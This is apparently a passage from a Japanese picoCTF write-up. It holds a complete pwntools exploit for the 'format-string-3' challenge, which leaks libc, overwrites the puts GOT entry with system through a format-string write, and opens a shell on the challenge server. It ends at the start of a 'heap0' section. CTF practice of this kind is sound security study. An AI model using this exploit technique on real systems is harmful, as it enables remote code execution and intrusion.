 ```python

exe = pwn.ELF("./format-string-3_patched")
libc = pwn.ELF("./libc.so.6")
ld = pwn.ELF("./ld-linux-x86-64.so.2")
pwn.context.binary = exe

payload = b""


def connect():
    # io = pwn.process(exe.path)
    io = pwn.remote("rhea.picoctf.net", 64906)
    return io


def b(x):
    return x.to_bytes(8, "little")


def send(p):
    global payload
    io = pwn.process(exe.path)
    io.sendline(p)
    payload = p
    resp = io.recvall()
    return resp


def main():
    io = connect()

    io.recvuntil(b"setvbuf in libc: ")
    leak = int(io.recvline().strip(), 16)
    libc.address = leak - libc.symbols["setvbuf"]

    pwn.log.info("libc.address = %s" % hex(libc.address))

    fs = pwn.FmtStr(execute_fmt=send)
    fs.write(exe.got["puts"], libc.symbols["system"])
    fs.execute_writes()

    with open("./payload", "wb") as f:
        f.write(payload)

    io.sendline(payload)
    io.recvuntil(b"\x18@@")
    io.interactive()


if __name__ == "__main__":
    main()
```
## heap0
ソースコードが渡された。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
```